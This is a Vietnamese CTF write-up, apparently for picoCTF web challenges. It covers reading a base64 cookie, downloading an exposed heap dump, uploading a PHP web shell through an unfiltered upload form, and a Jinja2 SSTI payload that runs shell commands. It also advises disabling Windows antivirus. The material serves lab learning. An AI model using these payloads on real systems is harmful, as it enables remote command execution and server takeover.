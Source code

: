 # Cookie Monster Secret Recipe

<h3>ĐỀ BÀI: Cookie Monster has hidden his top-secret cookie recipe somewhere on his website. As an aspiring cookie detective, your mission is to uncover this delectable secret. Can you outsmart Cookie Monster and find the hidden recipe? You can access the Cookie Monster here and good luck </h3>

**Phân tích**: đề bài có đề cập khá nhiều về `cookie`

        cookie: là các tập dữ liệu nhỏ mà trình duyệt lưu trữ trên máy, dùng để lưu trữ thông tim về các phiên làm việc như: lựa chọn or đăng nhập

**hướng giải**: việc đầu tiên nghĩ đến sẽ làm đọc phần dữ liệu cookie của trang web

**Giải**:
1. ta sử dụng dev tool để đọc phần cookie của trang web như phân tích, do chưa có bất kì dữ liệu nào khi mới đăng nhập vào web, nên thử đăng nhập với tài khoản mật khẩu bất kì để cập nhật thêm cookie cho trang web sau đó đọc tệp cookie đó.
2. ta sẽ thấy được 1 đoạn base64 

![image](https://github.com/user-attachments/assets/8a39a8b7-1eab-408a-a2be-86b30cbf7c07)


3. decode đoạn base64 rồi nộp flag

![image](https://github.com/user-attachments/assets/164540f1-2d1c-4efd-a907-1a30909f640f)


# head-dump

<h3>ĐỀ BÀI: Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag. The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden.
Additional details will be available after launching your challenge instance. </h3>

**phân tích**: đề bài nói rằng đây là 1 trang blog, khám phá trang web và tìm đến cuối web để tìm ra flag

**hướng giải**: tìm hiểu các đường dẫn trong trang web để tìm ra flag, khá đáng ngờ khi chỉ có "API Documentation" đề cập 

![image](https://github.com/user-attachments/assets/d9cbce66-0ee1-43dc-9014-613d4b3dccf2)

1. cố gắng truy cập vào cuối trang web khi bấm vào #API Documentation ta sẽ được di chuyển tới 1 trang web khác
2. kéo xuống cuối sẽ có 1 mục 'heap-dump' giống như đề bài 'try it out' -> 'excute' -> tải file trên trang web về rồi `ctrl + f` để tìm flag

![image](https://github.com/user-attachments/assets/b33464c8-8e04-4479-b581-20afd242ebec)

# n0s4n1ty 1

<h3>ĐỀ BÀI: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application here! </h3>

**Phân tích**: dựa theo đề bài và hint 1, trang web này là 1 trang web tải lên ảnh đại điện nhưng bị lỗi và các file được gửi lên không được lọc định dạng

**Hướng giải**: tìm cách bypass trang web thông qua file uploads

**Giải**:

1. ta sẽ bypass trang wep này bằng 1 file `.php`

        php: là một ngôn ngữ lập trình web, các file thường có đuổi `.php`
        ta cần tạo 1 file web shell .php để điều khiển trang web từ xa

2. tạo 1 file text và ghi dòng lệnh `<?php system($_GET['cmd']); ?>` rồi `save as` với đuôi `.php`

        $_GET['cmd'] lấy dữ liệu từ đường link URL.
        system() thực thi lệnh hệ thống trên server.

3. vì đây là 1 file crack trang web, tự như mã độc lên windown security sẽ xóa nó ngay, ta cần tắt đi trước khi tạo
4. upload file này lên trang web sau đó dùng đường link để ghi lệnh `http://expico.com/uploads/shell.php?cmd=sudo ls -l` để liệt kê file trong web
5. rồi cat file flag từ thư mục `root` ra

![image](https://github.com/user-attachments/assets/a7cd4b2f-4c69-44b1-ab07-8898f94ee2fb)


# SSTI1

<h3>ĐỀ BÀI: I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance. </h3>

**Phân tích**: `ssti` à viết tắt của Server-Side Template Injection (tấn công chèn mã vào lỗ hổng), đây là 1 lỗ hổng cảu trang web khi xử lý input của người dùng, họ có thể chèn mã độc vào input có thể gây ra nhiều hậu quả

**Hướng giải**: dựa vào tên đề bài ta thử trang web bằng cách nhập `{{ 7*7 }}` và trang web trả lại kết quả là 49 => trang web có lỗ hổng và có thể sử dụng các câu lệnh để bypass trang web

**Giải**:

1. ta cần kiểm tra trang web xem trang web sử dụng framework nào để dùng câu lệnh của framework đó để bypass
2. ta check bằng devtool của trình duyệt và thấy
![image](https://github.com/user-attachments/assets/096a92f3-6960-4326-aa83-9ba60793bc4e)


           Werkzeug là WSGI toolkit phổ biến được Flask sử dụng.
           Python/3.8.10 cho thấy backend chạy bằng Python.
           Flask mặc định dùng Jinja2 để render templates, nên có thể thử khai thác SSTI. 

3. nhập `{{ cycler.__init__.__globals__.os.popen('ls -la').read() }}` để liệt kê các file

           đây là 1 lệnh thuộc Jinja2
           cycle.__init__.__globals__: cho phép ta truy cập tới biến toàn cục bộ python kể các cac mô dun hệ thống
           os.popen(): mở 1 tiến trình con chạy lệnh shell nhắn thực thi lệnh `ls -la`
           .read(): để đọc ra kết quả

4. rồi cat file flag

![image](https://github.com/user-attachments/assets/fff79f31-2307-45e1-93b6-e357e1ee175b)










